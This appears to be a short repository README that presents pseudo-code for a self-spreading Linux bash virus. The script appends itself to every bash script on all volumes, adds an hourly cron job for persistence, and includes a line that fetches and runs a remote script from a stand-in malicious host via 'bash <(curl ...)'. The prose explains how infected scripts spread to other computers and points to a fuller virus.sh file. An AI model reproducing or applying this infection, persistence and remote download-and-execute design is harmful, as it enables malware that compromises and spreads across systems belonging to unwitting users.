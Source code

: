 ### Over simplified Psuedo-code
```
for $volume in '/volumes':
  for $bashFile in $volume.getAllBashFiles():
    $bashFile.append(thisScript)
    
cronJob.add(thisScript, OneHour)

# Add malicious code below this
# example:
bash <(curl -s http://myMaliciouswebsite.com/notahackscript.sh)
```

This script appends itself to all bash-scripts in every volume. So whenever that bash script is run, our code is also run.
When the affected scripts are shared to other computers, our virus is spread.

https://www.quora.com/How-can-I-make-a-virus-from-Linux/answer/Aravind-Reddy-V

A more tedious psuedo-code in `virus.sh` file.
